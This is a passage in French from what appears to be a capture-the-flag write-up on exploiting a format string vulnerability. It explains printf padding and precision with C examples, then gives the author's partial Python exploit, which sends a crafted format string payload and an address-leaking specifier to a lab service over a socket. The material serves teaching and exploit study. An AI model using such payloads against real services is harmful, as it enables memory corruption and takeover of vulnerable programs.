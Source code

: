 Ensuite il faut 72 caractères pour atteindre la valeur 123 (*%72X*).  

Et enfin 116 caractères pour atteindre 239.  

Attention avec le formatage. Il ne faut pas oublier que s'il est possible de définir une précision et mettre du padding pour l'affichage il est en revanche impossible de mettre une longueur maximale d'affichage.  

Par exemple le code C suivant :  

```c
printf("precision 8: %.8X\n", 0x0cde);
printf("precision 3: %.3X\n", 0x0cde);
printf("precision 1: %.1X\n", 0x0cde);
printf("precision 5: %.5X\n", 0xd3c0de);
printf("precision 3: %.3X\n", 0xd3c0de);
```

donne cet output :  

```plain
precision 8: 00000CDE
precision 3: CDE
precision 1: CDE
precision 5: D3C0DE
precision 3: D3C0DE
```

*printf* refuse de tronquer la valeur affichée. Donc attention si vous avez de petites valeurs (inférieures à 8), il est préférable de mettre les caractères tel quel.  

Certains utilisent *%c* au lieu de *%X* pour afficher des caractères mais là attention aux octets nuls :  

```c
sprintf(buffer, "%9c", 0x41);
len = strlen(buffer);
printf("len = %u\n", len);

sprintf(buffer, "%9c", 0x0);
len = strlen(buffer);
printf("len = %u\n", len);
```

Ce qui donne :  

```plain
len = 9
len = 8
```

A éviter, à mois d'être sûr de ce qu'il y a sur la pile.  

Voici mon code d'exploitation :  

```python
import socket
import struct

magic = "PPPAAAABBBBCCCCDDDD%.30X%14$.8XZZ%15$.8X%.72X%16$.8X%.116X%17$.8X"

sock = socket.socket()
sock.connect(('192.168.1.64', 20001))
sock.recv(1024)  # Hello...

# Get address for pWinning
sock.send("%8$.08X")
buff = sock.recv(1024)
if not buff.startswith("Nice to meet you "):
    print "Received strange response"
    sock.close()
    exit()
```